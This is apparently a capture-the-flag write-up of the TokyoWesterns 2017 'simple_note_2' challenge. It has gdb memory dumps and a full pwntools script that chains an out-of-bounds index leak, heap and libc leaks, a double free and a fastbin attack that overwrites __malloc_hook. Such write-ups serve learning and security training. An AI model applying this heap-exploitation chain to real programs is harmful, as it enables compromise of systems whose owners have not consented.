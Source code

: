 ```yaml
---
layout: post
comments: true
title: Note Version 2 - TokyoWesterns'17 (148pts)
---
```


Second part of the note challenge.

```
gef➤  checksec 
[+] checksec for '/home/sanat/tokyo-westerns'17/simple_note_2'
Canary                        : Yes →  value: 0x3eecb7f615243000
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Full
gef➤  

```

This time full RelRO.

There is OOB (Out of bounds error) in all functions that take input for index.

```
Input index of note.
-4
Content:� ��
+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=
1. Add a note.
2. Show a note.
3. Delete a note.
4. Exit.
+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=
Your choice:

So whatever index we pass, it dereferences it and then prints out its content. Sadly we can't leak libc like this since we would need a pointer to a libc function. But few bytes behind, we have a target which can easily leak the .text section of the binary.

```

gef➤  x/20xg 0x0000000100000000 + 0x202060 - 128
0x100201fe0:	0x00007ffff7a784d0	0x00007ffff7a47030
0x100201ff0:	0x0000000000000000	0x00007ffff7a472d0
0x100202000:	0x0000000000000000	0x0000000100202008 <-- Target
0x100202010:	0x0000000000000000	0x0000000000000000
0x100202020 <stdout>:	0x00007ffff7dd2620	0x0000000000000000
0x100202030 <stdin>:	0x00007ffff7dd18e0	0x0000000000000000
0x100202040 <stderr>:	0x00007ffff7dd2540	0x0000000000000000
0x100202050:	0x0000000000000000	0x0000000000000000
0x100202060:	0x0000000100203010	0x0000000000000000 <-- Start of our list array which holds pointers to heap.
0x100202070:	0x0000000000000000	0x0000000000000000

```

## Heap Leak

Our input string is not null terminated. So we can do a heap spray of fastbins and leak heap. ( We can also leak arena pointers but there is a much better way to do that).

```

gef➤  x/20xg 0x100203000
0x100203000:	0x0000000000000000	0x0000000000000021
0x100203010:	0x0000000000000000	0x0000000000000000
0x100203020:	0x0000000000000000	0x0000000000000021
0x100203030:	0x000000010020300a	0x0000000000000000 <-- our \x0a is not null terminated
0x100203040:	0x0000000000000000	0x0000000000020fc1

```

## Libc Leak

Now since we know .text address and heap base, we know the distance and hence can calculate the distance. Divide by 8 and we get index. So now we technically control out pointer. We can just set a pointer to got address as our heap data (when creating new note) and then pass in that index. Likewise we set a pointer to a note also and thus possess 2 pointers to 1 note --> double free --> fastbin attack --> straightforward malloc_hook attack.

## Malloc_hook Attack

There's a blog by [uafio](uaf.io) where he describes how to create a fastbin near malloc_hook.

```
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260
gef➤  
0x7ffff7dd1af8:	0x0000000000000000
gef➤  
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92e20
gef➤  
0x7ffff7dd1b08 <__realloc_hook>:	0x00007ffff7a92a00
gef➤  
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000
```
We overwrite with magic gadget.

## Full exploit code.

```
#!/usr/bin/python
from pwn import *

elf = ELF("./libc.so.6")
p = remote("pwn2.chal.ctf.westerns.tokyo", 18554)
#p = process("./simple_note_2",env={"LD_PRELOAD":"./libc.so.6"})
raw_input()

def menu():
	p.recvuntil("choice:")

def add_note(size,content):
	menu()
	p.sendline("1")
	p.recvuntil("note.")
	p.sendline(str(size))
	p.recvuntil("note.")
	p.sendline(content)

def show_note(idx,n):
	menu()
	p.sendline("2")
	p.recvuntil("note.")
	p.sendline(str(idx))
	p.recvuntil("Content:")
	return p.recv(n)

def delete_note(idx):
	menu()
	p.sendline("3")
	p.recvuntil("note.")
	p.sendline(str(idx))

# Use index to leak. Then put index = m such that it points to heap !!
# Then freeing can cause double free.

lol = "A"*11
leak = show_note(-11,6)
print leak
print len(leak)
leak += "\x00"*2
leak = u64(leak)
text = leak - 0x202008
log.info("Text section: " + hex(text))

start = text + 0x202060

puts_got = text + 0x0000000000201f90

# Leak heap.
add_note(100,lol)
add_note(100,lol)
delete_note(1)
delete_note(0)
add_note(100,"")

leak = show_note(0,6)
leak += "\x00"*2
leak = u64(leak)
heap = leak - 0xa
log.info("Heap: " + hex(heap))

# set got address.
delete_note(0)
victim = heap + 0x80
buf = p64(puts_got)
buf += p64(victim)
add_note(100,buf)

# Now attack.
index = (heap - start)/8
index += 2

leak = show_note(index,6)
leak += "\x00"*2
leak = u64(leak)
libc = leak - elf.symbols['puts']
log.info("Libc: " + hex(libc))

# Double free.
delete_note(0)
index+=1
delete_note(index)

malloc_hook = libc + 0x3c4af5-8
buf = p64(malloc_hook)
add_note(100,buf)

lol = "X"*8
lol += p64(victim)
add_note(100,lol)
add_note(100,lol)

magic = libc + 0x4526a
magic = libc + 0xf0274

buf = "X"*19
buf += p64(magic)
add_note(100,buf)

# Trigger double free error.
print index
#p.interactive()
delete_note(index)
delete_note(0)

p.interactive()
```
